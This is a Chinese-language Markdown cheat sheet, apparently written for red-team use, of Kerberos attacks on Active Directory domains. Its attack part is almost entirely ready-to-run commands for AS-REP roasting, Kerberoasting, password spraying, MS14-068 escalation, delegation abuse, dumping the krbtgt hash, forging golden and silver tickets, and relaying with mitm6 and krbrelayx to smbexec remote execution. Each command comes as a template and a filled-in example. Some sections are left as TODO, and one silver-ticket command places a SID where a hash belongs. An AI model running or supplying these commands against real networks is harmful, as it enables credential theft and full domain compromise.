



# Kerberos攻击面

## 获取域用户

### AS-Reproasting

#### 利用条件

- 存在关闭**预身份认证（Pre-Authentication）**的用户


#### 攻击方式

1. 查找**没有**开启**预身份认证**的用户

  - 方法一：使用**PowerView**查看

  ```shell
  powershell "Set-ExecutionPolicy Bypass -Scope process -Force;Import-Module .\PowerView.ps1;Get-DomainUser -PreauthNotRequired"
  ```


  - 方法二：使用**SharpView**查看

  ```shell
  SharpView.exe Get-DomainUser -PreauthNotRequired
  ```

  

2. 获取**没有开启预身份认证**的用户的**ASREPHash**

  - **未获取**域账号和密码

    - 方法一：使用**ASREPRoast**获取**ASREPHash**（PS：在**asrephash.txt**文件中的**$krb5asrep后拼接$23**字符串）
    
    ```shell
    # 模板
    powershell "Set-ExecutionPolicy Bypass -Scope process -Force;Import-Module .\ASREPRoast.ps1;Get-ASREPHash -UserName <没有开启预身份认证的用户名>|Out-File -Encoding ASCII asrephash.txt"
    # 示例
    powershell "Set-ExecutionPolicy Bypass -Scope process -Force;Import-Module .\ASREPRoast.ps1;Get-ASREPHash -UserName worker02|Out-File -Encoding ASCII asrephash.txt"
    ```
    
    
    
    - 方法二：使用**Rubeus**获取**ASREPHash**（PS：使用proxifier连接到teamserver服务器的socks4a代理）
    
      - 获取**指定用户**的**ASREPHash**
    
      ```shell
      # 模板
      Rubeus.exe asreproast /user:<没有开启预身份认证的用户名> /domain:<域名> /dc:<域控服务器IP> /format:hashcat /outfile:asrephash.txt
      # 示例
      Rubeus.exe asreproast /user:worker02 /domain:chatapt.com /dc:10.10.10.2 /format:hashcat /outfile:asrephash.txt
      ```
    
      
    
      - 获取**所有用户**的**ASREPHash**
    
      ```shell
      Rubeus.exe asreproast /format:hashcat /outfile:asrephash.txt
      ```
    
      

  - **已获取**域账号和密码

    - 使用**impacket**工具包中的**GetNPUsers**获取所有**未开启预身份认证**的用户**ASREPHash**

    ```shell
    # 模板
    proxychains python3 GetNPUsers.py -request <域名/域账号:密码> -format hashcat -outputfile asrephash.txt
    # 示例
    proxychains python3 GetNPUsers.py -request chatapt.com/worker02:1qaz@WSX -format hashcat -outputfile asrephash.txt
    ```
    
    

3. 使用**hashcat**破解**ASREPHash**

   - 使用字典破解

   ```shell
   hashcat.exe -m 18200 asrephash.txt password.dict -O --force
   ```

   

   - 使用未知密码破解

   ```shell
   # 破解8位未知密码
   hashcat.exe -m 18200 -a 3 asrephash.txt ?a?a?a?a?a?a?a?a -O --force
   ```

### kerberoasting

#### 前期准备

- 破解账号选择

|   SPN账号类型    |                             分析                             |
| :--------------: | :----------------------------------------------------------: |
| 用户账号（推荐） | 密码由用户控制，定期修改，可能会使用**弱口令**，并且为了不影响业务，密码长期不修改 |
|     机器账号     |             密码由机器随机生成，并且30天更换一次             |

#### 攻击方式

1. 获取**SPN**账号**HASH**

   - **未获取**域账号和密码

     - 方法一：使用**Invoke-Kerberoast**获取所有**SPN**账户**HASH**

     ```shell
     powershell "Set-ExecutionPolicy Bypass -Scope process -Force;Import-Module .\Invoke-Kerberoast.ps1;Invoke-Kerberoast -OutputFormat Hashcat|Select hash|ConvertTo-CSV -NoTypeInformation > hash.csv"
     ```

     

     - 方法二：使用**Rubeus**获取所有**SPN**账户**HASH**

     ```shell
     Rubeus.exe kerberoast /outfile:hash.txt
     ```

     


   - **已获取**域账号和密码

     - 使用**impacket**工具包中的**GetUserSPNs**获取所有**SPN**账户**HASH**

     ```shell
     # 模板
     proxychains python3 GetUserSPNs.py <域名/域账号:密码> -request -outputfile hash.txt
     # 示例
     proxychains python3 GetUserSPNs.py chatapt.com/worker02:1qaz@WSX -request -outputfile hash.txt
     ```

     

2. 使用**hashcat**破解**SPN账户的HASH**获取明文**密码**

   - 使用字典破解

   ```shell
   hashcat.exe -m 13100 hash.txt password.dict -O --force
   ```

   

   - 使用未知密码破解
   
   ```shell
   # 破解8位未知密码
   hashcat.exe -m 13100 -a 3 hash.txt ?a?a?a?a?a?a?a?a -O --force
   ```


### 用户名枚举和密码爆破

#### 利用条件

- **kerbrute**要求本地存在**ldap服务**

- 进行**kerbrute**的方法

  - 方法一：使用**Proxifier代理**

  - 方法二：把**kerbrute**工具**上传到靶机**（推荐，速度较快）

#### 攻击方式

1. 使用**kerbrute**枚举域存在的**账号**

```shell
# 模板
kerbrute_windows_386.exe userenum -d <目标域名> <username.dict>
# 示例
kerbrute_windows_386.exe userenum -d chatapt.com username.dict
```


2. 使用**kerbrute**获取**密码**

     - 使用**单个密码**爆破**多个账号**

   ```shell
   # 模板
   kerbrute_windows_386.exe passwordspray -d <目标域名> <username.list> <固定密码>
   # 示例
   kerbrute_windows_386.exe passwordspray -d chatapt.com username.dict 1qaz@WSX
   ```

   

     - 使用**密码字典**爆破**单个账号**

   ```shell
   # 模板
   kerbrute_windows_386.exe bruteuser -d <目标域名> password.dict <需要爆破的用户名>
   # 示例
   kerbrute_windows_386.exe bruteuser -d chatapt.com password.dict worker01
   ```

   

## 提升域用户权限

### MS14-068

| PrimaryGroupId | 用户组             |
| -------------- | ------------------ |
| 513            | 域用户             |
| 512            | 域管理员           |
| 518            | 架构管理员         |
| 519            | 企业管理员         |
| 520            | 组策略创建者所有者 |

#### 攻击方式

##### goldenPac

- 使用impacket工具包中的goldenPac获取域控权限

```shell
# 模板
proxychains python3 goldenPac.py <域名>/<域用户>:<密码>@<域控服务器域名> -dc-ip <域控服务器IP> -target-ip <目标域控服务器IP>
# 示例
proxychains python3 goldenPac.py vpxuser.com/worker01:1qaz@WSX@DC-MASTER.vpxuser.com -dc-ip 10.10.10.2 -target-ip 10.10.10.1
```



##### kekeo

1. 使用kekeo申请票据

```shell
kekeo.exe "exploit::ms14068 /domain:<域名> /user:<用户名> /password:<密码> /ptt" "exit"
kekeo.exe "exploit::ms14068 /domain:vpxuser.com /user:worker01 /password:1qaz@WSX /ptt" "exit"
```


2. 测试是否提权成功

```shell
dir \\DC-MASTER\C$
```



##### mimikatz

1. 查看当前用户的SID

```shell
whoami /user
```



2. 使用**MS14-068**的EXP对目标域账户进行提权

```shell
# 模板
MS14-068.exe -u <用户名@域名> -p <密码> -s <用户SID> -d <域控服务器域名>
# 示例
MS14-068.exe -u worker01@vpxuser.com -p 1qaz@WSX -s S-1-5-21-1354505229-3609808509-2427717812-1106 -d DC-MASTER.vpxuser.com
```


3. 使用**mimikatz**导入票据

```shell
# 模板
mimikatz.exe "kerberos::purge" "kerberos::ptc <TGT_username>@<域名>.ccache" "exit"
# 示例
mimikatz.exe "kerberos::purge" "kerberos::ptc TGT_worker01@vpxuser.com.ccache" "exit"
```


4. 测试是否提权成功

```shell
net use \\DC-MASTER\admin$
dir \\DC-MASTER\C$
```


### 委派

#### 前期准备

1. 使用**SharpHound**获取域内信息

```shell
powershell -exec bypass -command "Set-ExecutionPolicy Bypass -Scope process -Force; Import-Module ./SharpHound.ps1; Invoke-BloodHound -c all"
```


2. 开启neo4j数据库服务

```shell
neo4j.bat console
```


3. 上传**SharpHound**收集的信息到**BloodHound**进行分析可委派的**SPN账号**


#### 非约束委派

##### 前期准备

- 查找非约束委派账号

  - 方法一：使用AdFind查找

    - 查找用户账号

    ```shell
    # 模板
    AdFind.exe -b "DC=<域名>,DC=<域名>" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
    # 示例
    AdFind.exe -b "DC=chatapt,DC=com" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
    ```

    

    - 查找机器账号

    ```shell
    # 模板
    AdFind.exe -b "DC=<域名>,DC=<域名>" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
    # 示例
    AdFind.exe -b "DC=chatapt,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
    ```

    

  - 方法二：使用PowerView查找

    - 查找机器账号

    ```shell
    # 模板
    powershell -ep bypass -c "Set-ExecutionPolicy Bypass -Scope process -Force;Import-Module .\PowerView.ps1;Get-NetComputer -Unconstrained -Domain <域名>"
    # 示例
    powershell -ep bypass -c "Set-ExecutionPolicy Bypass -Scope process -Force;Import-Module .\PowerView.ps1;Get-NetComputer -Unconstrained -Domain chatapt.com"
    ```

    

#### 约束委派

#### 攻击方式

- 使用**kekeo**请求**TGT**票据

```shell
kekeo.exe "tgt::ask /user:<SPN服务账号> /domain:<域名> /password:<SPN服务账号密码> /ticket:<指定票据名称（可不填）>" "exit"
```

- 使用**kekeo**请求**TGS**票据

```shell
kekeo.exe "tgs::s4u /tgt:<TGT票据路径> /user:<高权限用户账号>@<域名> /service:<目标服务>/<目标服务器域名>" "exit"
```

- 使用**kekeo**把**TGS**票据注入到当前会话

```shell
kekeo.exe "kerberos::ptt <TGS票据路径>" "exit"
```

#### 基于资源的约束委派

//TODO

## 域用户权限维持

### 黄金票据

#### 利用条件

1. **域名称**
2. 域的**SID**值
3. 域的**KRBTGT**账号的**HASH**
4. 伪造**任意用户名**

#### 攻击方式

- 使用**mimikatz**获取**krbtgt**用户的**hash**

```shell
mimi.exe "lsadump::lsa /patch"
```

- 使用**mimikatz**伪造administrator用户的TGT

```shell
mimi.exe "kerberos::golden /user:administrator /domain:<域名> /sid:<krbtgt用户的SID> /krbtgt:<krbtgt用户的hash> /ptt"
```

### 白银票据

#### 利用条件

1. 域名
2. 域SID
3. 目标服务器的FQDN即完整的域名
4. 可利用的服务
5. **服务账户**的NTLM哈希
6. 伪造的用户名即任意用户名

#### 攻击方式

- 使用**mimikatz**获取**SPN**账号的**hash**

```shell
mimikatz.exe "lsadump::lsa /patch"
```

- 使用**mimikatz**伪造administrator用户的TGT

```shell
mimikatz.exe "kerberos::golden /domain:<域名> /sid:<SPN账号的SID> /target:<目标服务器域名> /service:<目标服务> /rc4:<SPN账号的SID> /user:administrator /ptt"
```

## //TODO Kerberos Relay


### 攻击方式

- 使用**certutil**命令获取域内**ADCS**服务器信息

```shell
certutil -dump
```

- 攻击机开启**krbrelayx**监听，获取目标服务器**机器账户**权限

```shell
krbrelayx.exe --target http://<ADCS服务器域名>/certsrv/ -ip <攻击机IP> --victim <受害服务器域名> --adcs --template Machine
```

- 攻击机开启**mitm6**监听

```shell
mitm6.exe --domain <域名> --host-allowlist <受害服务器域名> --relay <ADCS服务器域名>
```

- 等待目标机器进行IPv6记录更新查询，触发查询即可获取**base64证书数据**
- 获取**base64证书数据**后，使用**smbexec**远程执行命令

```shell
KRB5CCNAME=admin.ccache python smbexec.py -k test.com/Administrator@win-test.test.com -no-pass
```

#### CVE-2022-33647（强制认证漏洞）

//TODO

# 鸣谢

[**PowerView**](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

[**ASREPRoast**](https://github.com/HarmJ0y/ASREPRoast)

[**Rubeus**](https://github.com/GhostPack/Rubeus)

[**GoRottenTomato**](https://github.com/1ight-2020/GoRottenTomato)

[**impacket**](https://github.com/fortra/impacket)

[**hashcat**](https://github.com/hashcat/hashcat)

[**Invoke-Kerberoast**](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)

[**kerbrute**](https://github.com/ropnop/kerbrute)

[**MS14-068**](https://github.com/Al1ex/WindowsElevation/blob/master/CVE-2014-6324/MS14-068.exe)

[**mimikatz**](https://github.com/gentilkiwi/mimikatz)

[**BloodHound**](https://github.com/BloodHoundAD/BloodHound)

[**kekeo**](https://github.com/gentilkiwi/kekeo)

[**krbrelayx**](https://github.com/dirkjanm/krbrelayx)

[**mitm6**](https://github.com/dirkjanm/mitm6)
